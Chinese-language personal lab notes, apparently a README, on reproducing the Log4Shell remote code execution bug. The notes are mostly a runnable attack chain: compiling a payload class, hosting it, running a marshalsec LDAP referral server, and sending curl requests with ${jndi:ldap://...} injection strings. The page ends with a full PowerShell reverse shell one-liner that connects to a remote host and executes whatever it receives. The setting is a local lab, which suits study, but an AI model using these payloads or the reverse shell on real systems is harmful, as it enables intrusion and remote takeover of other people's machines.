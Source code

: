 如果遇到 WARNING: Illegal reflective access by com.thoughtworks.xstream.core.util.Fields
[Eureka 中 JDK 11 遇到的问题](https://blog.csdn.net/YKenan/article/details/105959843)
只是警告，不管

https://github.com/xiajun325/apache-log4j-rce-poc


```bash
git clone git@github.com:xiajun325/apache-log4j-rce-poc.git

docker run -v `pwd`/:/root/poc  marshalsec javac /root/poc/src/main/java/Log4jRCE.java

# https://www.cnblogs.com/mingforyou/p/3551199.html
javac Log4jRCE.java
php -S 127.0.0.1:8888

python -m http.server
# http://localhost:8000/

docker cp /usr/src/myapp/target/marshalsec-0.0.3-SNAPSHOT-all.jar ./
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Log4jRCE"
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/Log4jRCE"

docker run --rm --name log4jpwn -p8080:8080 log4jpwn

curl -v -H 'User-Agent: ${jndi:ldap://172.29.78.192:1389/a}' 'localhost:8080/${jndi:ldap://172.29.78.192:1389/a}/?pwn=$\{jndi:ldap://172.29.78.192:1389/a\}'

curl -v -H 'User-Agent: ${jndi:ldap://172.29.78.192:1389/Log4jRCELinux}' 'localhost:8080'
curl -v -H 'User-Agent: ${jndi:ldap://172.29.78.192:1389/Log4jRCE}' 'localhost:8080'
172.17.0.2
# vim Log4jRCE.java
Runtion.getRuntime().exec("calc.exe")
```

```bash
 mvn --quiet clean -f "d:\dev\lab\apache-log4j-rce-poc\pom.xml" && mvn --quiet org.apache.maven.plugins:maven-dependency-plugin:3.0.2:tree -f "d:\dev\lab\apache-log4j-rce-poc\pom.xml" -DoutputFile="d:\dev\lab\apache-log4j-rce-poc\target\dependencies.txt" -DoutputType=dot -DappendOutput=true 'mvn'
```

${jndi:ldap://xxx/Log4jRCE}

反向

[powershell reverse shell one liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

```powershell
# Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
